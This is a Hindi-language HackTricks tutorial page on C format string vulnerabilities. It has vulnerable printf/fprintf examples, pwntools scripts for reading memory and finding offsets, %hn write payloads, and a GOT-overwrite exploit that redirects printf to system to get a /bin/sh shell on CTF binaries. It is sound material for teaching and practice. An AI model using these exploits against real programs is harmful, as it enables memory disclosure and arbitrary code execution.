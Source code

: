 # Format Strings

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Basic Information

C में **`printf`** एक फ़ंक्शन है जिसका उपयोग **किसी स्ट्रिंग को प्रिंट करने** के लिए किया जा सकता है। इस फ़ंक्शन की **पहली पैरामीटर** जो अपेक्षित है वह है **फॉर्मेटर्स के साथ कच्चा टेक्स्ट**। **अन्य पैरामीटर** जो अपेक्षित हैं वे हैं **कच्चे टेक्स्ट** से **फॉर्मेटर्स** को **बदलने** के लिए **मान**।

अन्य संवेदनशील फ़ंक्शन हैं **`sprintf()`** और **`fprintf()`**।

संवेदनशीलता तब प्रकट होती है जब **हमलावर टेक्स्ट को इस फ़ंक्शन के पहले तर्क के रूप में उपयोग किया जाता है**। हमलावर एक **विशेष इनपुट तैयार करने** में सक्षम होगा जो **printf फॉर्मेट** स्ट्रिंग क्षमताओं का दुरुपयोग करके किसी भी पते (पढ़ने योग्य/लिखने योग्य) में **कोई भी डेटा पढ़ने और लिखने** के लिए। इस तरह से **मनमाना कोड निष्पादित** करने में सक्षम होना।

#### Formatters:
```bash
%08x —> 8 hex bytes
%d —> Entire
%u —> Unsigned
%s —> String
%p —> Pointer
%n —> Number of written bytes
%hn —> Occupies 2 bytes instead of 4
<n>$X —> Direct access, Example: ("%3$d", var1, var2, var3) —> Access to var3
```
**उदाहरण:**

* कमजोर उदाहरण:
```c
char buffer[30];
gets(buffer);  // Dangerous: takes user input without restrictions.
printf(buffer);  // If buffer contains "%x", it reads from the stack.
```
* सामान्य उपयोग:
```c
int value = 1205;
printf("%x %x %x", value, value, value);  // Outputs: 4b5 4b5 4b5
```
* गायब तर्कों के साथ:
```c
printf("%x %x %x", value);  // Unexpected output: reads random values from the stack.
```
* fprintf कमजोर:
```c
#include <stdio.h>

int main(int argc, char *argv[]) {
char *user_input;
user_input = argv[1];
FILE *output_file = fopen("output.txt", "w");
fprintf(output_file, user_input); // The user input can include formatters!
fclose(output_file);
return 0;
}
```
### **Pointers तक पहुँचना**

फॉर्मेट **`%<n>$x`**, जहाँ `n` एक संख्या है, printf को यह संकेत करने की अनुमति देता है कि n पैरामीटर (स्टैक से) का चयन करें। इसलिए, यदि आप printf का उपयोग करके स्टैक से 4वें पैरामीटर को पढ़ना चाहते हैं, तो आप कर सकते हैं:
```c
printf("%x %x %x %x")
```
और आप पहले से चौथे पैरामीटर तक पढ़ सकते हैं।

या आप कर सकते हैं:
```c
printf("%4$x")
```
और सीधे चौथे को पढ़ें।

ध्यान दें कि हमलावर `pr`**`intf` पैरामीटर को नियंत्रित करता है, जिसका अर्थ है कि** उसका इनपुट `printf` के कॉल होने पर स्टैक में होगा, जिसका अर्थ है कि वह स्टैक में विशिष्ट मेमोरी पते लिख सकता है।

{% hint style="danger" %}
एक हमलावर जो इस इनपुट को नियंत्रित करता है, वह **स्टैक में मनमाने पते जोड़ने में सक्षम होगा और `printf` को उन्हें एक्सेस करने के लिए मजबूर कर सकता है**। अगले अनुभाग में इस व्यवहार का उपयोग कैसे करें, यह समझाया जाएगा।
{% endhint %}

## **मनमाना पढ़ना**

फॉर्मेटर **`%n$s`** का उपयोग करना संभव है ताकि **`printf`** **n स्थिति** में स्थित **पते** को प्राप्त कर सके, उसके बाद और **इसे एक स्ट्रिंग की तरह प्रिंट करे** (जब तक 0x00 नहीं मिलता तब तक प्रिंट करें)। इसलिए यदि बाइनरी का बेस पता **`0x8048000`** है, और हम जानते हैं कि उपयोगकर्ता इनपुट स्टैक में चौथे स्थान पर शुरू होता है, तो बाइनरी की शुरुआत को प्रिंट करना संभव है:
```python
from pwn import *

p = process('./bin')

payload = b'%6$s' #4th param
payload += b'xxxx' #5th param (needed to fill 8bytes with the initial input)
payload += p32(0x8048000) #6th param

p.sendline(payload)
log.info(p.clean()) # b'\x7fELF\x01\x01\x01||||'
```
{% hint style="danger" %}
ध्यान दें कि आप इनपुट की शुरुआत में 0x8048000 का पता नहीं डाल सकते क्योंकि स्ट्रिंग उस पते के अंत में 0x00 पर कट जाएगी।
{% endhint %}

### ऑफसेट खोजें

अपने इनपुट के लिए ऑफसेट खोजने के लिए, आप 4 या 8 बाइट्स (`0x41414141`) भेज सकते हैं उसके बाद **`%1$x`** और **मान बढ़ाएं** जब तक कि `A's` प्राप्त न हो जाएं।

<details>

<summary>ब्रूट फोर्स printf ऑफसेट</summary>
```python
# Code from https://www.ctfrecipes.com/pwn/stack-exploitation/format-string/data-leak

from pwn import *

# Iterate over a range of integers
for i in range(10):
# Construct a payload that includes the current integer as offset
payload = f"AAAA%{i}$x".encode()

# Start a new process of the "chall" binary
p = process("./chall")

# Send the payload to the process
p.sendline(payload)

# Read and store the output of the process
output = p.clean()

# Check if the string "41414141" (hexadecimal representation of "AAAA") is in the output
if b"41414141" in output:
# If the string is found, log the success message and break out of the loop
log.success(f"User input is at offset : {i}")
break

# Close the process
p.close()
```
</details>

### कितनी उपयोगी

मनमाने पढ़ने से निम्नलिखित में मदद मिल सकती है:

* **बाइनरी** को मेमोरी से **डंप** करना
* **संवेदनशील** **जानकारी** संग्रहीत करने वाले मेमोरी के **विशिष्ट भागों** तक **पहुँच** प्राप्त करना (जैसे कि कैनरी, एन्क्रिप्शन कुंजी या कस्टम पासवर्ड जैसे इस [**CTF चुनौती**](https://www.ctfrecipes.com/pwn/stack-exploitation/format-string/data-leak#read-arbitrary-value) में)

## **मनमाना लिखना**

फॉर्मेटर **`$<num>%n`** **लिखता** है **लिखे गए बाइट्स की संख्या** को **संकेतित पते** में \<num> पैरामीटर में स्टैक में। यदि एक हमलावर printf के साथ जितने भी अक्षर लिख सकता है, वह **`$<num>%n`** को एक मनमाना संख्या को एक मनमाने पते पर लिखने में सक्षम होगा।

भाग्यवश, संख्या 9999 लिखने के लिए, इनपुट में 9999 "A"s जोड़ना आवश्यक नहीं है, इसलिए ऐसा करने के लिए फॉर्मेटर **`%.<num-write>%<num>$n`** का उपयोग करके संख्या **`<num-write>`** को **`num` स्थिति द्वारा इंगित पते** में लिखा जा सकता है।
```bash
AAAA%.6000d%4\$n —> Write 6004 in the address indicated by the 4º param
AAAA.%500\$08x —> Param at offset 500
```
हालांकि, ध्यान दें कि आमतौर पर एक पता जैसे `0x08049724` (जो एक HUGE संख्या है जिसे एक बार में लिखना है) लिखने के लिए, **`$hn`** का उपयोग किया जाता है बजाय **`$n`** के। यह **केवल 2 Bytes** लिखने की अनुमति देता है। इसलिए, यह ऑपरेशन दो बार किया जाता है, एक बार पते के उच्चतम 2B के लिए और दूसरी बार निम्नतम के लिए।

इसलिए, यह भेद्यता **किसी भी पते में कुछ भी लिखने की अनुमति देती है (मनमाना लेखन)।**

इस उदाहरण में, लक्ष्य यह होगा कि **एक फ़ंक्शन** के **पते** को **ओवरराइट** किया जाए जो बाद में **GOT** तालिका में कॉल किया जाएगा। हालांकि, यह अन्य मनमाने लेखन को exec तकनीकों का दुरुपयोग कर सकता है:

{% content-ref url="../arbitrary-write-2-exec/" %}
[arbitrary-write-2-exec](../arbitrary-write-2-exec/)
{% endcontent-ref %}

हम एक **फ़ंक्शन** को **ओवरराइट** करने जा रहे हैं जो **उपयोगकर्ता** से अपने **आर्गुमेंट्स** **प्राप्त** करता है और इसे **`system`** **फ़ंक्शन** की ओर **संकेत** करता है।\
जैसा कि उल्लेख किया गया है, पते को लिखने के लिए आमतौर पर 2 चरणों की आवश्यकता होती है: आप **पहले 2Bytes** का पता लिखते हैं और फिर अन्य 2। ऐसा करने के लिए **`$hn`** का उपयोग किया जाता है।

* **HOB** को पते के 2 उच्चतम बाइट्स के लिए कहा जाता है
* **LOB** को पते के 2 निम्नतम बाइट्स के लिए कहा जाता है

फिर, फ़ॉर्मेट स्ट्रिंग के काम करने के तरीके के कारण, आपको **पहले सबसे छोटे** \[HOB, LOB] को लिखना होगा और फिर दूसरे को।

यदि HOB < LOB\
`[address+2][address]%.[HOB-8]x%[offset]\$hn%.[LOB-HOB]x%[offset+1]`

यदि HOB > LOB\
`[address+2][address]%.[LOB-8]x%[offset+1]\$hn%.[HOB-LOB]x%[offset]`

HOB LOB HOB\_shellcode-8 NºParam\_dir\_HOB LOB\_shell-HOB\_shell NºParam\_dir\_LOB

{% code overflow="wrap" %}
```bash
python -c 'print "\x26\x97\x04\x08"+"\x24\x97\x04\x08"+ "%.49143x" + "%4$hn" + "%.15408x" + "%5$hn"'
```
{% endcode %}

### Pwntools टेम्पलेट

आप इस प्रकार की कमजोरियों के लिए एक **टेम्पलेट** तैयार करने के लिए पा सकते हैं:

{% content-ref url="format-strings-template.md" %}
[format-strings-template.md](format-strings-template.md)
{% endcontent-ref %}

या इस बुनियादी उदाहरण से [**यहां**](https://ir0nstone.gitbook.io/notes/types/stack/got-overwrite/exploiting-a-got-overwrite):
```python
from pwn import *

elf = context.binary = ELF('./got_overwrite-32')
libc = elf.libc
libc.address = 0xf7dc2000       # ASLR disabled

p = process()

payload = fmtstr_payload(5, {elf.got['printf'] : libc.sym['system']})
p.sendline(payload)

p.clean()

p.sendline('/bin/sh')

p.interactive()
```
## फ़ॉर्मेट स्ट्रिंग्स से BOF

यह संभव है कि फ़ॉर्मेट स्ट्रिंग भेद्यता की लिखने की क्रियाओं का दुरुपयोग करके **स्टैक के पते में लिखें** और **बफर ओवरफ्लो** प्रकार की भेद्यता का शोषण करें।

## अन्य उदाहरण और संदर्भ

* [https://ir0nstone.gitbook.io/notes/types/stack/format-string](https://ir0nstone.gitbook.io/notes/types/stack/format-string)
* [https://www.youtube.com/watch?v=t1LH9D5cuK4](https://www.youtube.com/watch?v=t1LH9D5cuK4)
* [https://www.ctfrecipes.com/pwn/stack-exploitation/format-string/data-leak](https://www.ctfrecipes.com/pwn/stack-exploitation/format-string/data-leak)
* [https://guyinatuxedo.github.io/10-fmt\_strings/pico18\_echo/index.html](https://guyinatuxedo.github.io/10-fmt\_strings/pico18\_echo/index.html)
* 32 बिट, कोई रिलरो, कोई कैनरी, nx, कोई पाई, स्टैक से ध्वज लीक करने के लिए फ़ॉर्मेट स्ट्रिंग्स का बुनियादी उपयोग (कार्य निष्पादन प्रवाह को बदलने की आवश्यकता नहीं)
* [https://guyinatuxedo.github.io/10-fmt\_strings/backdoor17\_bbpwn/index.html](https://guyinatuxedo.github.io/10-fmt\_strings/backdoor17\_bbpwn/index.html)
* 32 बिट, रिलरो, कोई कैनरी, nx, कोई पाई, फ़ॉर्मेट स्ट्रिंग `fflush` के पते को जीतने के फ़ंक्शन (ret2win) के साथ ओवरराइट करने के लिए
* [https://guyinatuxedo.github.io/10-fmt\_strings/tw16\_greeting/index.html](https://guyinatuxedo.github.io/10-fmt\_strings/tw16\_greeting/index.html)
* 32 बिट, रिलरो, कोई कैनरी, nx, कोई पाई, फ़ॉर्मेट स्ट्रिंग `.fini_array` में मुख्य के अंदर एक पते को लिखने के लिए (ताकि प्रवाह एक बार और लूप हो) और `system` के पते को GOT तालिका में लिखें जो `strlen` की ओर इशारा करता है। जब प्रवाह मुख्य में वापस जाता है, `strlen` उपयोगकर्ता इनपुट के साथ निष्पादित होता है और `system` की ओर इशारा करता है, यह पास किए गए आदेशों को निष्पादित करेगा।

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
